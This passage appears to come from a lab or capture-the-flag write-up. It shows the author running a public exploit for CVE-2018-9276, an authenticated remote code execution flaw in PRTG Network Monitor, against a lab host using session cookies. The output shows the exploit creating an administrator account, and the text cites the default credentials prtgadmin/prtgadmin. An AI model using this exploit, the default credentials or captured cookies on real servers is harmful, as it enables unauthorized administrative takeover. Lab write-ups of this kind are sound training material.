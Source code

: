 ```
$ ./exploit.sh
zsh: ./exploit.sh: bad interpreter: /bin/bash^M: no such file or directory
```
This error is simply due to the file format. Changing the file from DOS to Unix format resolves the error.

```
$ dos2unix exploit.sh                                                                                                                                        127 ⨯ 2 ⚙
dos2unix: converting file exploit.sh to Unix format...
$ ./exploit.sh
[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 
 EXAMPLE USAGE: ./prtg-exploit.sh -u http://10.10.10.10 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1" 
```
To run the script we need the cookies from the website after logging in. 

```
$ ./exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.939709617.1623416767; _gid=GA1.4.1182283071.1623416767; OCTOPUS1813713946=ezYzRTBGRkQ1LTgzQUMtNDFFNy05RkFFLTQ2Qjc0MjQ2MjlFMX0%3D;"

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....
```